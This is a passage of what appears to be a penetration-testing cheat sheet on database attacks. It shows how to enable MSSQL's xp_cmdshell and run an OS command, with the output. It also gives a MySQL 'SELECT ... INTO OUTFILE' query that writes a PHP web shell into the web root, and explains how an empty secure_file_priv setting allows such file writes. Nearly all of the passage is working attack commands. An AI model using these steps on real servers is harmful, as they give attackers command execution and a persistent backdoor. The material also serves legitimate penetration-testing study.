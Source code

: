 ```

-- To update the currently configured value for this feature.

RECONFIGURE
GO

EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

**Executing commands using xp_cmdshell**

```
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

### **Write Local Files**

**MySQL - Write Local Files**

```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

**MySQL - secure_file_priv**

secure_file_priv may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and
export operations to work only with files in that directory. The
directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operation

**Example**

```
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

Variable secure_file_priv is empty, which means we can read and write data using MySQL
